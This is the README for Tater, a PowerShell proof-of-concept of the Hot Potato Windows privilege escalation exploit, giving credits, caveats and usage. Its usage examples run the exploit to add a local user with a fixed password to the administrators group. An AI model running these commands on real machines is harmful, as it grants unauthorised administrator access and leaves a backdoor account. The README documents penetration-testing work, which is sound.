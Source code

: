 # Tater
Tater is a PowerShell implementation of the Hot Potato Windows Privilege Escalation exploit. Tater is mainly pieced together from existing Inveigh code.   

# Credit
All credit goes to @breenmachine, @foxglovesec, Google Project Zero, and anyone else that helped work out the details for this exploit.  
 
Potato - https://github.com/foxglovesec/Potato   

# Notes
Use caution, this is still very much in a proof of concept stage. It’s only been tested on Windows 7. It's also missing some of the advanced features found in Potato. 
  
The most likely thing to go wrong is that the HTTP listener will not release the port 80 binding on exit. If this happens, closing out your PowerShell process will remove the binding.     

# Usage
To import with Import-Module:   
Import-Module ./Tater.ps1   

To import using dot source method:   
. ./Tater.ps1  
 
Invoke-Tater -Command "net user tater Winter2016 /add && net localgroup administrators tater /add"   

Invoke-Tater -Command "net user tater Winter2016 /add && net localgroup administrators tater /add" –RunTime 10   

# Screenshot
![tater](https://cloud.githubusercontent.com/assets/5897462/12634831/1cf4aefc-c54b-11e5-88d6-476b2dc75b2d.PNG)
